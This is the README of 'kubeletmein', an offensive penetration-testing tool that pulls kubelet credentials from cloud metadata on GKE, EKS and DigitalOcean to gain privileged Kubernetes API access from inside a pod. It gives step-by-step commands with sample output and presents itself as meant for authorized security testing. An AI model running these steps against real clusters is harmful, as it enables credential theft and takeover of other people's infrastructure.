 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod.

It reads kubelet credentials from the cloud provider metadata and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-kubelet-on-gke/](https://www.4armed.com/blog/hacking-kubelet-on-gke/).

## Supported providers

### GKE

GKE is fully supported and relies on the metadata concealmeant being disabled (the default setting).

### EKS

EKS support added by @airman604 based on the AWS EKS [bootstrap script](https://github.com/awslabs/amazon-eks-ami/blob/master/files/bootstrap.sh). This is a one step process and doesn't create a fake node, but rather impersonates the node on which the pod is running.

### Digital Ocean

By default, DO provides creds by metadata and this cannot be disabled.

### AKS

I should probably look at Azure at some point but....Microsoft. ;-)


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases).

## How to

### GKE

On GKE kubeletmein is a two stage process. First we write out a bootstrap-kubeconfig using the certificates and key from the `kube-env` instance attribute. Then we generate a certificate sigining request and use the bootstrap config to submit it to the API for approval.

```
~ $ kubeletmein bootstrap gke
2018-11-29T21:21:26Z [ℹ]  fetching kubelet creds from metadata service
2018-11-29T21:21:26Z [ℹ]  writing ca cert to: ca-certificates.crt
2018-11-29T21:21:26Z [ℹ]  writing kubelet cert to: kubelet.crt
2018-11-29T21:21:26Z [ℹ]  writing kubelet key to: kubelet.key
2018-11-29T21:21:26Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2018-11-29T21:21:26Z [ℹ]  wrote bootstrap-kubeconfig
2018-11-29T21:21:26Z [ℹ]  now generate a new node certificate with: kubeletmein gke generate
```

Then we download the certificate and configure `kubeconfig`.

```
~ $ kubeletmein generate -n gke-cluster19-default-pool-6c73beb1-wmh3
2018-11-29T21:23:33Z [ℹ]  using bootstrap-config to request new cert for node: gke-cluster19-default-pool-6c73beb1-wmh3
2018-11-29T21:23:33Z [ℹ]  got new cert and wrote kubeconfig
2018-11-29T21:23:33Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig kubeconfig get pods
```

### EKS

On EKS we can impersonate current node in a single step using IAM authentication.

```
~ $ kubeletmein eks
2021-03-02T21:37:59Z [ℹ]  generating kubeconfig for current EKS node
2021-03-02T21:37:59Z [ℹ]  fetching cluster information from user-data from the metadata service
2021-03-02T21:37:59Z [ℹ]  getting IMDSv2 token
2021-03-02T21:37:59Z [ℹ]  getting user-data
2021-03-02T21:37:59Z [ℹ]  generating EKS node kubeconfig file at: kubeconfig
2021-03-02T21:37:59Z [ℹ]  wrote kubeconfig
2021-03-02T21:37:59Z [ℹ]  to use the kubeconfig, download aws-iam-authenticator to the current directory and make it executable by following the instructions at https://docs.aws.amazon.com/eks/latest/userguide/install-aws-iam-authenticator.html
2021-03-02T21:37:59Z [ℹ]  then try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests. Follow the instructions at
https://docs.aws.amazon.com/eks/latest/userguide/install-aws-iam-authenticator.html to download `aws-iam-authenticator`
(and make it executable), then run:

```
kubectl --kubeconfig kubeconfig get pods
```

### Digital Ocean

```
~ $ kubeletmein bootstrap do
2018-12-12T23:34:19Z [ℹ]  fetching kubelet creds from metadata service
2018-12-12T23:34:19Z [ℹ]  writing ca cert to: ca-certificates.crt
2018-12-12T23:34:19Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2018-12-12T23:34:19Z [ℹ]  wrote bootstrap-kubeconfig
2018-12-12T23:34:19Z [ℹ]  now generate a new node certificate with: kubeletmein do generate
```

Now generate the kubeconfig with a downloaded cert
```
~ $ kubeletmein generate -n whatevs
2018-12-12T23:36:46Z [ℹ]  using bootstrap-config to request new cert for node: whatevs
2018-12-12T23:36:46Z [ℹ]  got new cert and wrote kubeconfig
2018-12-12T23:36:46Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.
